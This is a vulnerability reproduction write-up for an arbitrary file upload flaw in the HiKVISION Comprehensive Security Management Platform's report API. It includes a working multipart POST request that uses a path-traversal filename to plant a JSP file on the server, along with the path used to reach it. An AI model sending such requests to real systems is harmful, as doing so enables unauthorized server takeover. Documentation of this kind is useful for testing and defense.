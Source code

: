 # HiKVISION Comprehensive Security Management Platform report Any file upload vulnerability

## Vulnerability Description

There is a vulnerability to upload any file on the report interface of the HiKVISION comprehensive security management platform. The attacker can upload any file by constructing a special request package and obtain server permissions.

## Vulnerability Impact

HiKVISION Comprehensive Security Management Platform

## Network surveying and mapping





## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1681661275768-9965dbd4-176f-48bc-b55a-062dbe7c5317-20230809120725683.png)

```plain
WEB-INF/classes/com/hikvision/svm/controller/ExternalController.class
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1681709277423-114b364b-2e5a-4fb0-a7b9-26154f61ca9e.png)

```plain
WEB-INF/classes/com/hikvision/svm/business/serivce/impl/ExternalBusinessServiceImpl.class
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1681709313430-8f4e019f-f3b7-41fc-a86b-ba1c07e59d45.png)Construct Please upload the file (get the absolute path through env leak, the path will generally not be modified)















```sql
POST /svm/api/external/report HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1681709342417-a815332d-13c9-40e4-844a-42eb54661897.png)

```plain
/portal/ui/login/..;/..;/new.jsp
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1681709424146-cb0ef1b8-4732-4c3a-a041-37bad6125d44.png)
